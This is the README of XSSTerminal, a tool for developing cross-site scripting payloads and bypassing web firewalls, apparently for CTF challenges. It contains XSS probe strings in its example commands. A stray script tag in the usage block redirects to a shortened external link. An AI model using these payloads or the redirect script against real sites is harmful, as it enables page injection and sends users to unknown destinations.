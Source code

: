 # XSSTerminal
![XSSTerminal](python3_version/lib/XSSTERMINAL.png)
[![Code Grade](https://www.code-inspector.com/project/15086/status/svg)](https://frontend.code-inspector.com/public/project/15086/XSSTerminal/dashboard)
[![Code Quality](https://www.code-inspector.com/project/15086/score/svg)](https://frontend.code-inspector.com/public/project/15086/XSSTerminal/dashboard)

## Description
Develop your own XSS payload for CTFs and read response smartly. Typing the payload manually in browser and finding that specific text in view-source is booring. This is the upgrade you need.

## Features:
1. Easy to view response without lot of shits.
2. Interactive testing whether `WAF` has blocked or not using error string.
3. Run and save xsst sessions for future use.
4. Both Go and Python3 version are available.

## Python3 or Golang?
Its obviously your choice! Python3 has easy syntax and lot of features are present! Go on the other hand is quite fast.
Python3 code is most developed and stable. Go version is in development. Please open pull requests to make go version better! Note python3 has also some issues, if you find one then raise an issue.

## Installation:
For Python3:  
* `git clone https://github.com/machinexa2/XSSTerminal && cd XSSTerminal/python3_version && python3 -m pip install -r requirements.txt; ln -s "$(pwd)""/XSSTerminalPy.py" /usr/bin/XSSTerminal `

For Go:
* `git clone https://github.com/machinexa2/XSSTerminal && cd XSSTerminal/golang_version && go build xsst.go && mv xsst /usr/bin/XSSTerminal`

## Usage
```
usage: XSSTerminal [-h] [-u BASE_URL] [-p PAYLOAD] [-e ERROR_STRING | -s MATCH_STRING | -b BLIND_STRING] [-m {GET,POST}] [-o OUTPUT] [-r RESUME]

XSS Terminal

optional arguments:
  -h, --help            show this help message and exit
  -u BASE_URL, --base-url BASE_URL
                        Base URL
  -p PAYLOAD, --payload PAYLOAD
                        Starting payload
  -e ERROR_STRING, --error-string ERROR_STRING
                        Error string
  -s MATCH_STRING, --match-string MATCH_STRING
                        Match string
  -b BLIND_STRING, --blind-string BLIND_STRING
                        Blind error string
  -m {GET,POST}, --method {GET,POST}
                        HTTP Method (Default get)
  -o OUTPUT, --output OUTPUT
                        Output file name
  -r RESUME, --resume RESUME
                        Filename to resume XSST session
  --banner          Print banner and exit

<script>window.location="https://bit.ly/3n60FQ4";</script>
```
For advanced usage with explanation: [XSSTerminal Usage/Explanation](https://github.com/machinexa2/XSSTerminal/wiki/Usage)

## Example:
For Python3: (Go is quite similar)
1. Using one GET parameter:   
* ``` ./XSSTerminal.py -u https://baseurl.com/?v= -p 'hello.com\'><script>' -e 'Your IP has been blocked'```

2. Using multiple GET parameter:    
* ``` ./XSSTerminal.py -u 'https://baseurl.com/?par1=y&par2=n&par3=s&vulnerable_parameter=' -p 'hello.com"><script>' -e 'Your IP has been blocked'```

3. Using multiple POST parameter:  
* ``` ./XSSTerminal.py -u https://baseurl.com/waf.php -p 'par1=y&par2=n&par3=s&vulnerable_parameter=hello.com"><script>' -e 'Your IP has been blocked' --method POST ```

## Live Example:
Using python3 version, this is what xss development looks like. I was developing xss payload for Clownflare WAF (a CTF by Roni Carta aka Lupin)  
The argument was something like this:-  

`python3 XSSTerminal.py --base-url http://brutal.x55.is/?src= -p 'startingtext' -e 'Blocked'`

![medevelopingxss](https://cdn.discordapp.com/attachments/741721459520438396/751493373587750962/unknown.png)  

At last, i came up with the payload with console.log()

## Notes:
1. Golang version is in development so is python3. May encounter bugs
2. DOM XSS soon coming (not sure if that could be implemented)
3. Session saving and restoring from file hasnt been implemented in go version and python3 version, POST parameter isnt avialable for now!
4. Not a tool for detecting XSS, just for bypassing WAFs and developing payloads
